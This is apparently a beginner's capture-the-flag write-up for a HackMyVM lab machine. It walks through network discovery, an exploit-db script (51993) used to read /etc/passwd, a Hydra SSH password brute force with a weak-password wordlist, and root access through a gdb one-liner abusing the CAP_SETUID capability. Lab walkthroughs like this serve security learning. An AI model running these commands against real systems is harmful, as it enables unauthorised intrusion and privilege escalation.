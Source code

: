 # qweasd
**network discovery**
```
I usually use __Fping__ command to watch active machines in my network  
```
![fping_image](images/fping.png)
```
i saw the __192.168.1.113__ is my the **CTF** machine 
![namp]https://github.com/HosseinVampire/Writeups/blob/main/Hackmyvm/Asdqwe/images/fping.png)
```

### FIND 8080 port lets check it
```
i did some search on site but nothing ....
only got this information 
```
![info](images/information.png)
```
i tried to brouteforce the login page but its seems to protected  so i got stuck 
```
##  Exploit-db
```
i check exploit-db  and this is result 
```
![exploit-db](images/searchsploit.png)
```
exploit number is  __51993__
i import the file and can read some files  
```
```bash
python 51993.py  -u http://192.168.1.113:8080 -p /etc/passwd
```
### Content of passwd :

![passwd](images/passwd.png)

```
users that have bash : Root , kali , penetration 
*i serched a lot for id_rsa or any password but nothing ...*
i spend a 30 min to figure the solution of gettin a shell it  .   
from the name of machine i thought that password might be a silly  so ...
```


## Hydra
**hydra -l kali -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  ssh://192.168.1.113**
![hydrapassword](images/hydra.png)

## PRIV ESC - ROOT
``` 
Getting root was easy 
check  capabilities and got below results :
```
![cap](images/setuiddiscovery.png)
```
Find *GDB* command that got capabilities 
```
```
**If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.**
```
# ROOT ACCESS :
```
**gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit**
```
DONE :)

![root](images/root.png)
```
it is my first write up, im sorry if i explained bad <3
```



## thanks to my friend ll104567 for tips 
### you can check his bilibili url 
its his biliblii url : [site](https://space.bilibili.com/20805349)